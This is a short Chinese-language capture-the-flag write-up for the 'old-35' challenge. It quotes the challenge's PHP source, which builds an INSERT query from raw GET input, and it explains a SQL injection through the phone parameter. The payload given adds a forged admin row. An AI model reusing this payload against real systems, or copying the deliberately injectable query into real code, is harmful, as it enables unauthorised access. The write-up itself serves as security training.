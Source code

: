 # old-35_350

* 一進到這一個網站，直接看他的 source code
    ```php=
    $db = dbconnect();
    if($_GET['phone'] && $_GET['id']){
      if(preg_match("/\*|\/|=|select|-|#|;/i",$_GET['phone'])) exit("no hack");
      if(strlen($_GET['id']) > 5) exit("no hack");
      if(preg_match("/admin/i",$_GET['id'])) exit("you are not admin");
      mysqli_query($db,"insert into chall35(id,ip,phone) values('{$_GET['id']}','{$_SERVER['REMOTE_ADDR']}',{$_GET['phone']})") or die("query error");
      echo "Done<br>";
    }

    $isAdmin = mysqli_fetch_array(mysqli_query($db,"select ip from chall35 where id='admin' and ip='{$_SERVER['REMOTE_ADDR']}'"));
    if($isAdmin['ip'] == $_SERVER['REMOTE_ADDR']){
      solve(35);
      mysqli_query($db,"delete from chall35");
    }

    $phone_list = mysqli_query($db,"select * from chall35 where ip='{$_SERVER['REMOTE_ADDR']}'");
    echo "<!--\n";
    while($r = mysqli_fetch_array($phone_list)){
      echo htmlentities($r['id'])." - ".$r['phone']."\n";
    }
    echo "-->\n";
    ```
    明顯考的是 sql injection
* 只要達成 isAdmin 的條件就可以過了
* 注入點是 phone，因為其他的限制比較多
* `insert into chall35(id,ip,phone) values('{$_GET['id']}','{$_SERVER['REMOTE_ADDR']}',{$_GET['phone']})`
    能改的地方只有 phone 其他的都是預設值，所以只要 insert. 複數的 data 到 database 裡面就可以了
* 至於 insert 複數的 data 的方法可以參考 old-08_350 裡面的內容
* 所以我就想到了一個 payload `1),('admin', 'your_ip_address', 2`
* 把它放到句子裡面看看 
    ```sql=
    insert into chall35(id,ip,phone) values('{$_GET['id']}','{$_SERVER['REMOTE_ADDR']}',1),('admin', 'your_ip_address', 2)
    ```
    完美
* 送出之後就過拉
